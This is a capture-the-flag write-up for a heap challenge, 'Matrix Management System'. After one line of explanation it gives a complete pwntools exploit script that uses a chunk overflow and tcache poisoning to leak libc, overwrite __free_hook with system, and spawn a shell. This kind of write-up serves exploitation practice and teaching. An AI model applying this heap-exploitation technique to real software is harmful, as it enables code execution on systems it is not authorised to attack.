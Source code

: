 ### Matrix Management System (400 Points)

> Neo, we've done it. We've figured out how they make new matrixes and transfer people around. End it all from the source.
>
> [attachment](heapsoftrouble-25dc62650f966e6f47b50a0704f2c976)

Maybe reverse part is annoying, but the vulnerability is obvious, that's the overflow function of option 7.

We can use the chunk overflow change the anything which stored in next chunk, such as the size of Matrix, the fd pointer of tcachebin. 



#### exploit script

```python
#!/usr/bin/env python
from pwn import * 
# context.log_level='debug'

p = process('./heapsoftrouble-25dc62650f966e6f47b50a0704f2c976')
elf = ELF('./heapsoftrouble-25dc62650f966e6f47b50a0704f2c976')
libc = elf.libc

def free(idx):
	p.recvuntil('Exit\n')
	p.sendline('2')
	p.recvuntil('Matrix: ')
	p.sendline('Matrix #{}'.format(str(idx)))

def free2(idx):
	p.recvuntil('Exit\n')
	p.sendline('2')
	p.recvuntil('Matrix: ')
	p.sendline('{}'.format(str(idx)))

def add(matrix,popu):
	p.recvuntil('Exit\n')
	p.sendline('1')
	p.recvuntil('New Matrix: ')
	p.sendline(matrix)
	p.recvuntil('new matrix: ')
	p.sendline(str(popu))

def overflow(data):
    p.sendline(b'7')
    p.sendline(data)

def show(name):
    p.sendline(b'4')
    p.recvuntil('Matrix: ')
    p.sendline(name)

# gdb.attach(p)
# login
p.recvuntil('ogin: ')
p.sendline('AAAA')

free(1)

for i in range(6):
	add('A'*0x80,1)
	free2('A'*0x80)
add('b'*0x80,1)
free2('b'*0x80)


free(4)
overflow('BBBB')
overflow(p64(0x0)*5+p64(0x31)+p64(0x2333)+p64(0x23333)+p32(0x800))

show('Matrix #5')
leak = p.recvuntil('b',drop=True)
libc.address = u64(leak[-8:])-0x1ebbe0


add('/bin/sh\x00',1)
add('B'*0x20,1)
free(7)

overflow(p64(0)*5+p64(0x31)+p64(libc.sym['__free_hook']-2))
overflow('AAAA')
overflow('A\x00'+p64(libc.sym['system']))


# gdb.attach(p)
free2('/bin/sh')

p.interactive()
```

